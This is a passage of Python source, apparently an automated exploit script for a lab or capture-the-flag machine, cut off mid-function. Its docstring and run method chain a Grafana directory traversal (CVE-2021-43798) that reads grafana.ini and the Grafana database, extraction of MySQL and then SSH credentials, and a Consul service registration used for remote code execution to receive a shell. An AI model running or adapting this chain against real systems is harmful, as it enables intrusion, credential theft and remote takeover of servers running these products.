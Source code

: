 ```python
		self.target_files = {
			'grafana_conf' : '/etc/grafana/grafana.ini',
			'grafana_db' : None
		}

		self.target_credentials = {
			'mysql' : {
				'user' : None,
				'pass' : None
			},
			'ssh' : {
				'user' : None,
				'pass' : None
			},
			'consul' : { 'token' : None }
		}

		self.json_file = 'payload.json'
		self.shell_file = 'shell.sh'

	def run(self):
		"""
		Exploit process:
		----------------
		(1) Grafana plugin url [CVE-2021-43798] (Directory Path Traversal)
			* Database path into Grafana config file
		
		(2) SQLite enumeration in Grafana database file
			* Mysql credentials

		(3) Mysql enumeration
			* SSH credentials

		(4) Vulnerable path in Consul service registration (Remote Code Execution)
			* [Requirements] 
				- Consul token (Leakage Information in git repository)
		"""
		with log.progress('Starting Attack') as progress:

			progress.status('Grafana plugin url [CVE-2021-43798] (Directory Path Traversal)'); time.sleep(3)
			self.extract_file(file=self.target_files['grafana_conf'])

			progress.status('Searching grafana.db path in config file'); time.sleep(3)
			self.get_database_path()
			self.extract_file(file=self.target_files['grafana_db'])
			
			progress.status('SQLite enumeration in Grafana database file'); time.sleep(3)
			self.get_mysql_cred()
			
			progress.status('Login to Mysql with credentials'); time.sleep(2)
			self.extract_ssh_cred()

			progress.status('Prepare .json and .sh file'); time.sleep(3)
			self.prepare_files()

			progress.status('Creating Consul service to receive the shell'); time.sleep(3)
			self.get_shell()

	def extract_file(self, file):
		try:
			with Session() as session:
				vulnerable_path = self.target_host['grafana_service'] \
```